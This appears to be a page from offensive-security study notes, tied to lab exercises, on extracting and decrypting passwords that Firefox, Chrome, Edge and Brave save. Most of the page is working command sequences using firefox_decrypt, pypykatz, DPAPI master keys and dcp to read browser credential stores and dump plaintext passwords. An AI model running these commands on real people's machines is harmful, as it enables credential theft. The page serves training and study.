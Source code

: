 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.7k ⭐)</small>. To install it on Kali:

```ps
$ cd /opt
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python3.9 firefox_decrypt.py -h
$ python3.9 firefox_decrypt.py /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "AppData/Local/Google/Chrome/User Data/Local State" --logindata "AppData/Local/Google/Chrome/User Data/Default/Login Data"
```

➡️ We can use [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.7k ⭐)</small> on Windows that actually automates the whole process.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.4k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```ps
$ base64 -d > key.enc <<< "<secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S secret_key_here -P "./Default/Login Data"
```
</div><div>
</div></div>